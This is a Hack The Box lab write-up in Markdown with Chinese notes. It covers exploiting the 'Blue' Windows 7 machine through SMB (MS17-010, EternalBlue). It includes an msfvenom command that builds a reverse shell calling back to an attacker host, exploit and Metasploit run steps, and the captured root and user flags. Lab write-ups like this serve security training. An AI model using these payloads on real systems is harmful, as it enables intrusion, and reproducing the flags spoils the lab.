 # Blue
- URL : https://app.hackthebox.eu/machines/51
- IP : 10.129.209.90

## Recon
- Rustscan
    - ![](https://i.imgur.com/67XVo54.png)
- nmap
    - `nmap -A -p 135,139,445,49152,49153,49154,49155,49156,49157 10.129.209.90`
        - ![](https://i.imgur.com/KncNQzE.png)
    - 系統版本
        - Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
- smb
    - ![](https://i.imgur.com/n93prMN.png)
    - ![](https://i.imgur.com/B8ABEM7.png)
    - ![](https://i.imgur.com/mZDgLa8.png)
- nmapAutomator
    - ![](https://i.imgur.com/UlMW8lp.png)



## Exploit
- https://github.com/helviojunior/MS17-010
    - 修改 `send_and_execute.py` 裡面的 username
        - 等於 `guest`
- MSF 準備 shell
    - `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.35 LPORT=7877  -f exe -o shellx64.exe`
        - 其實這邊用 x86 也可以
- 執行 Exploit
    - `python send_and_execute.py  10.129.216.62 ../shellx64.exe`
    - ![](https://i.imgur.com/bvmzbcP.png)
- nc 收 shell
    - ![](https://i.imgur.com/QTfgtnr.png)


## MSF Exploit
- `use windows/smb/ms17_010_eternalblue`
- options
    ![](https://i.imgur.com/yLfHcrh.png)
- `set RHOSTS 10.129.216.62`
- `set LHOST 10.10.16.35`
- `run`
    - ![](https://i.imgur.com/MJjRbSk.png)
- Get Root Key
    - `ff548eb71e920ff6c08843ce9df4e717`
    - ![](https://i.imgur.com/xJVAJs4.png)
- Get User Key
    - ![](https://i.imgur.com/VEFkOCN.png)
    - `4c546aea7dbee75cbd71de245c8deea9`